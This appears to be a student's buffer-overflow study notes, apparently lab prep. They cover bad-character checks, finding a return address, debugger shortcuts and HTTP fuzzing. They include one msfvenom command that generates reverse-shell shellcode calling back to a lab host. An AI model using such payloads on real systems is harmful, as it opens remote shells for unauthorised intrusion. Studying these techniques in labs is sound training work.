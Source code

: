 
## checking for bad chars
We sent the whole range of characters from 00 to FF within our buffer and then monitored
whether any of those bytes got mangled, swapped, dropped, or changed in memory once they
were processed by the application.

0x00 0x20  

## finding a return address  
edb Plugins -> OpcodeSearcher  
0x8134596  

## getting a shell
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.148 LPORT=443 -b "\x00\x20" -f py -v shellcode
```

the output format with
-f, and the variable name to use with -v.  



shell is stucked, because of debugger



# Buffer Overflow
# Immunity Debug
F2 set break point  
F9 to run the program  
F7 step into the function  
Ctrl + F9 execute until the return of the function  


# Windows Buffer Overflows
## Discover the vulnerability 
1. source code review
2. reverse engineering 
3. fuzzing  

# Fuzzing the http protocal
## get seed
use wireshark to capture packages  
capture filter `host 192.168.119.148 and host 192.168.148.10`  
locate the /login page and right click `follow tcp stream`  -- apply display filters  

